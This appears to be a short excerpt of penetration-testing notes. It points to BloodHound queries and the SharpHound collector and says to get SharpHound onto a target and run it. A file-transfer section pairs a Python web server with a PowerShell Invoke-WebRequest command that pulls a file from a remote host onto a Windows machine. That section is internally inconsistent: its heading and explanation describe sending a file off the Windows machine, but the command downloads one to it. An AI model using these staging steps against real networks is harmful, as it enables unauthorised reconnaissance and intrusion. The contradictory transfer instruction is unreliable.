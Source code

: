 There are some good queries [here](https://github.com/CompassSecurity/bloodhoundce-resources).



### SharpHound

[SharpHound](https://github.com/SpecterOps/SharpHound) is the agent that gathers data for BloodHound to analyze. You can get the latest release [here](https://github.com/SpecterOps/SharpHound/releases).

Get it to your target somehow, then run it.

# Move files

## From Windows to somewhere else

### With PowerShell & a server on a remote machine

Setup a python server on the machine you want to file to be transferred to:

```bash
python -m http.server
```
Send the file from the windows machine:

```cmd
powershell -c "Invoke-WebRequest -Uri http://<IP where you want the file to go>:8000/<filename> -OutFile .\<filename>"
```

You should see the request come through on your server and the file should be written to the directory of your server.